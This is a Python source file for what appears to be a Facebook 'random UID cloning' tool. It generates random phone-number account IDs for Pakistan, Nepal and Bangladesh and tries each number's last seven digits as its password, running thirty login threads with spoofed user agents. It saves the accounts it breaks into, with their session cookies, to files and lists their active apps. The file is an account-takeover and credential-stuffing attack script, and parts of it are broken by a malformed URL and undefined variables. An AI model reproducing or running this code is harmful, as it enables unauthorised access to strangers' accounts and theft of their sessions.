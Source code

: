 

from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
import os,sys,time,json,random,re,string,platform,base64,platform,uuid
import marshal
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
    os.system('python U-MAIL.py')
    os.system('pip install bs4')
from bs4 import BeautifulSoup
ugen = []
color=random.choice(['\033[1;31m','\033[1;32m','\033[1;33m','\033[1;35m','\033[1;34m','\033[1;97m'])
A = '\x1b[1;97m'
B = '\x1b[1;96m'
C = '\x1b[1;91m'
D = '\x1b[1;92m'
M = '\033[1;31m'
H = '\033[1;32m'
N = '\x1b[1;37m'
E = '\x1b[1;93m'
F = '\x1b[1;94m'
G = '\x1b[1;95m'
P = '\033[1;37m'
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;32m'
ORANGE = '\033[1;35m'
AHMADO = '{ AHMADO }'
for xd in range(10000):
    a='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)

loop = 0
cps = []
oks = []
twf = []
#os.system('xdg-open https://www.facebook.com/profile.php?id=100076836152171/')
os.system('xdg-open https://github.com/SHAKIB-71')

def clear():
    os.system('clear')
    print(poker)
poker = """

\033[1;32m 
\033[1;32m███████╗██╗  ██╗ █████╗ ██╗  ██╗██╗██████╗ 
\033[1;32m██╔════╝██║  ██║██╔══██╗██║ ██╔╝██║██╔══██╗
\033[1;32m███████╗███████║███████║█████╔╝ ██║██████╔╝
\033[1;32m╚════██║██╔══██║██╔══██║██╔═██╗ ██║██╔══██╗
\033[1;32m███████║██║  ██║██║  ██║██║  ██╗██║██████╔╝
\033[1;32m╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═════╝ 
                                           


\033[1;32m ╔══════════════════════════════════════╗
\033[1;32m ║\033[1;32m➠𝐀𝐔𝐓𝐇𝐎𝐑     :MARUF                   \033[1;32m║
\033[1;32m ║\033[1;33m➠𝐅𝐀𝐂𝐄𝐁𝐎𝐎𝐊   :𝐌d Maruf              \033[1;32m║
\033[1;32m ║\033[1;33m➠𝐆𝐈𝐓𝐇𝐔𝐁     : MARUF-10                 \033[1;32m║
\033[1;32m ║\033[1;32m➠𝐓𝐎𝐎𝐋𝐒      :𝐑𝐀𝐍𝐃𝐎𝐌 𝐁𝐃 𝐂𝐋𝐎𝐍𝐈𝐍𝐆        \033[1;32m║
\033[1;32m ║\033[1;35m➠𝐓𝐎𝐎𝐋 𝐒𝐓𝐀𝐓𝐄 :𝐅𝐑𝐄𝐄                     \033[1;32m║
\033[1;32m ║\033[1;97m➠𝐁𝐄𝐋𝐈𝐄𝐕𝐄 𝐘𝐎𝐔𝐑 𝐒𝐄𝐋𝐅                    \033[1;32m║
\033[1;32m ╚══════════════════════════════════════╝ """




#####     ####




def linex():
    print(f'\033[1;35m༄MARUF•───────────────────────────────────────•༄71᭄')
def checks(oks,cps,twf):
    if not len(oks) != 0:
        pass
    if len(cps) != 0:
        print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s  \x1b[1;97mSHAKIB-OK.txt' % (
            H, P, str(len(oks))))
        print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mSHAKIB-CP.txt' %
              (H, P, str(len(cps))))
        print('\x1b[1;97m TOTAL 2F :\x1b[1;97m   %s \x1b[1;97mSHAKIB-2F.txt' %
              (H, P, str(len(twf))))
        input("\x1b[1;97mPRESE ENTER TO BACK xyz  ")
        xyz()
loop = 0
cps = []
oks = []
twf = []
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE  APKS %s  '%(ORANGE))
    else:
        print(f'\r {GREEN}[•] %sYOUR ACTIVE APPLICATION DETAILS :'%(GREEN))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS %s'%(ORANGE))
    else:
        print(f'\r   %{Green}sYOUR EXPIRED APKS DETAILS :'%(Green))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N))
            print(f"{GREEN}[•]---------------------------------------------------[•]")
    #____________#
def Anto():
    os.getuid
    os.system("clear");print(poker)
    print('           \x1b[97m[\033[1;33m     MAIN MENU    \033[0;m] ')
    print(f"")
    print(f"{GREEN}[01]"+color+"RANDOM UID CLONING")
    print(f"{GREEN}[00]"+color+"EXIT PROGRAM ")
    print(f"")
    AHMADO = input("[•] CHOOSE : ")
    if AHMADO in ["1","01"]:
        Tabii()
    elif AHMADO in ["0","00"]:
       exit()
    else:
        print('\033[1;31mINCORECT OPTION!\033[1;31m')
        Anto()

#==========================================================#

#========================================================== #

def Tabii():
    user=[]
    os.getuid
    os.geteuid
    os.system("clear")
    os.system(" xdg-open https://www.facebook.com/profile.php?id=100076836152171")
    print(poker)
    print(f"")
    clear()
    print(f"")
    linex()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    print('  PAK CODE - 92306  92300  92315  92318  92345  ')
    print(f"SHAKIB───────────────────────────────────────•༄71᭄")
    print(f" NEPAL CODE -  97797  97795  97781  97787")
    print(f"SHAKIB───────────────────────────────────────•༄71᭄")
    print(f" BD CODE -  0197   0175  0189  0150  0143   0139   ")
    print(f"SHAKIB───────────────────────────────────────•༄71᭄")
    print(f"")
    linex()
    code = input(' CHOOSE A CODE : ')
    os.system("clear")
    print(poker)
    print(f"")
    print(f"          \x1b[97m[\033[1;32m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 1000  2000  5000   10000   99999\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {BLUE}"+tl)
        print(f" {WHITE}TOOL STATE            : {BLUE}FREE")
        print(f" {WHITE}NUMBER YOU PUT        : {BLUE}"+code)
        print(f" {WHITE}PROCESS HAS BEEN STARTED")
#        print(f" {WHITE}BE PATIENT.......")
        print(f'{YELLOW}───────────────────────────────────────')
        for love in user:
            uid = code+love
            pwx = [love]
            yaari.submit(free,uid,pwx,tl)
def free(uid,pwx,tl):
    global loop
    global oks
    global agents
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'mbasic.facebook.com',
            'method': 'GET',
            'schem': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-US,en;q=0.9',
           # 'cookie': 'datr=WcRTZFgZ_z1A0Jt3e1d9R_WC; sb=WcRTZBpGNDLRlQvk0EP_vN2c; vpd=v1%3B1021x512x1.40625; dpr=1.40625; wl_cbv=v2%3Bclient_version%3A2244%3Btimestamp%3A1683615068; locale=en_US; wd=512x1021; fr=0d3AcLuhXRnD4ovQD.AWWomZ8K9Mj6v1xTEnBE5B3SWFU.BkU8RZ.zO.AAA.0.0.BkZeLh.AWXYZw3l9gM',
            'sec-ch-prefers-color-scheme': 'light',
            'sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"',
            'sec-ch-ua-full-version-list': '"Not:A-Brand";v="99.0.0.0", "Chromium";v="112.0.5615.137"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-ch-ua-platform-version': '"11.0.0"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro }
            lo = session.post('hhttps://mbasic.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\033[1;32m══════════════════════════════════════════')
                print('\r\033[1;32m[✓] STATUS   :SHAKIB_OK💉')
                print('\r\033[1;32m[✓] NUMBER    : '+uid+'  ')
                print('\r\033[1;32m[✓]PASSWORD     : '+ps+' ')
                print('\r\033[1;32m══════════════════════════════════════════')
                print('\r\033[1;32m[✓] USER COOKIES: '+coki+' ')
                print('\r\033[1;32m══════════════════════════════════════════')
                cek_apk(session,coki)
                open('/sdcard/SHAKIB-OK.txt', 'a').write(cid+' | '+ps+'\n')
                oks.append(idf + '|' + pw)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[24:39]
                Green = '\033[1;32m'
                print('\r\033[1;32m══════════════════════════════════════════')
                print('\r\033[1;32m[✓] STATUS : SHAKIB_OK💉')
                print('\r\033[1;32m[✓] NUMBER    : ' +uid+ ' ')
                print('\r\033[1;91m[✓]PASSWORD     :' +ps+ ' ')
                print('\r\033[1;32m══════════════════════════════════════════')
                open('/sdcard/SHAKIB-CP.txt', 'a').write(cid+' | '+ps+'\n')
                cps.append(idf + '|' + pw)
                break
            elif '/x/checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[7:22]
                Green= '\033[1;32m'
                print(f'\r{YELLOW}[TP-LOCK] '+cid+' | '+ps+'\033[1;97m')
                open('/sdcard/2F-😩.txt', 'a').write(cid+' | '+ps+'\n')
                twf.append(cid)
            else:
                continue
        loop+=1
        sys.stdout.write('\r%s ☬ %s/%s ☬ OK:%s ☬ CP:%s ☬ %s%s%s ☬' % (bi, loop, len(id2), ok, cp, int(pers), str(fff), x))
        sys.stdout.flush()
        checks(oks,cps,twf)
    except:
        pass



if __name__ == '__main__':
    Anto()
